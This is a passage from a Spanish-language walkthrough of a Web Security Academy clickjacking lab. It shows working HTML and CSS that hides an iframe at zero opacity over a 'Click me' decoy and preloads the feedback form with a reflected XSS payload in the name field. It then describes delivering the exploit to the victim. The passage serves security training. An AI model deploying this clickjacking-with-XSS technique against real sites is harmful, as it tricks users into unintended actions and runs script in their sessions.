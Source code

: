 `Cambiamos` la `opacidad` a `0`

```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:620px;
       left:75px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://0abc00e1044662e9828fa7c9008500b8.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

![](/assets/img/Clickjacking-Lab-4/image_17.png)

Probamos que funciona pulsando sobre `View exploit > Click me` y posteriormente le `enviamos` el `exploit` a la víctima pulsando `Deliver exploit to victim`
